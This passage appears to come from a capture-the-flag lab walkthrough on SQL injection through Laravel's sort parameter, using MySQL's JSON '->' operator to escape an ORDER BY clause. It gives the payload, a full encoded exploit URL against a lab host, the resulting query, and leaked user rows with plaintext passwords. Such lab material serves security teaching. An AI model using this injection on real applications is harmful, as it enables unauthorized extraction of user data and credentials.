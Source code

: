 
Our objective here is to manipulate the query to retrieve complete data from the `users` table instead of being restricted to a limited number of rows.  

However, injecting the sort parameter in this context is not straightforward by merely concatenating it with the `SELECT` query and using routine injection methods. The challenge lies in effectively breaking out of the ORDER BY clause to manipulate the query execution. To achieve this, we can utilise a special function: the [->](https://dev.mysql.com/doc/refman/8.4/en/json.html) operator, which serves as an alias for the `json_extract` function in MySQL. This operator allows us to navigate JSON data and extract specific values. By using the `->` operator in conjunction with the `"%27))` payload, we can break out of the ORDER BY clause. The `->"%27))` payload effectively terminates the JSON extraction, bypasses the limitations imposed by the initial query and allows us to append additional SQL commands.


**Final Payload**

We will prepare the final payload like this:

- **Initial query**: The initial query that Laravel translates for sorting users by name is `SELECT * FROM users ORDER BY name ASC LIMIT 2`.
- **Breaking the query**: By injecting the `name->"%27))`, we can cause the query to break and thus create an opportunity to insert our own SQL.
- **Crafting the payload**: To exploit the vulnerability, we craft the payload to break out of the string and inject our SQL. The payload would be something like `name->"%27)) SQL INJECTION QUERY #`. Within the parameter value `name->`, the `->` is parsed by Laravel and replaced with JSON MySQL function. On the other hand, `"%27))` closes the previous string and condition. `SQL INJECTION QUERY` allows an attacker to write his own query. The character `#` comments out the rest of the query to prevent syntax errors.
- **Final result**: The payload for getting additional rows from the database would look like [https://10-10-152-83.p.thmlabs.com/query_users?sort=name-%3E%22%27))%20LIMIT%2010%23](https://10-10-152-83.p.thmlabs.com/query_users?sort=name-%3E%22%27))%20LIMIT%2010%23), while the query generated by Laravel to the MySQL database would be ``SELECT * FROM `users` ORDER BY json_unquote(json_extract(`name`, '$.""')) LIMIT 10#"')) ASC LIMIT 2`` including the injected payload. The above query would bypass the limit capability and fetch 10 rows from the table.


```
[
  {
    "id": 6,
    "name": "Alice Smith",
    "email": "alice@thm.com",
    "created_at": null,
    "updated_at": null,
    "password": "test"
  },
  {
    "id": 7,
    "name": "Bob Johnson",
    "email": "bob@thm.com",
    "created_at": null,
    "updated_at": null,
    "password": "mypassword"
  },
  {
    "id": 8,
    "name": "Charlie Brown",
    "email": "admin@thm.com",
    "created_at": null,
    "updated_at": null,
    "password": "myuniquepassword"
  },
  {
    "id": 5,
    "name": "Jane Doe",
    "email": "jane@thm.com",
```
